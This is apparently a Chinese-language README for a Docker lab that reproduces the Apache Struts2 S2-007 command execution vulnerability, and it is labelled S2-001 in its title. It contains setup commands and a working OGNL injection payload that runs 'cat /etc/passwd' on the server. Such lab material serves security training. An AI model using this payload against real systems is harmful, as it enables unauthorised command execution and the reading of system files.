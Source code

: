 ## Struts2 S2-001 漏洞环境

### 漏洞信息

 * [S2-007 公告](http://struts.apache.org/docs/s2-007.html)

参考 [http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_struts2_s2-007
 ```

2. 启动环境

 ```
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-007
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### Exp

命令执行(命令加参数：getRuntime().exec('cat /etc/passwd'))

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('cat /etc/passwd').getInputStream())) + '
```

![](S2-007-1.png)

![](S2-007-2.png)
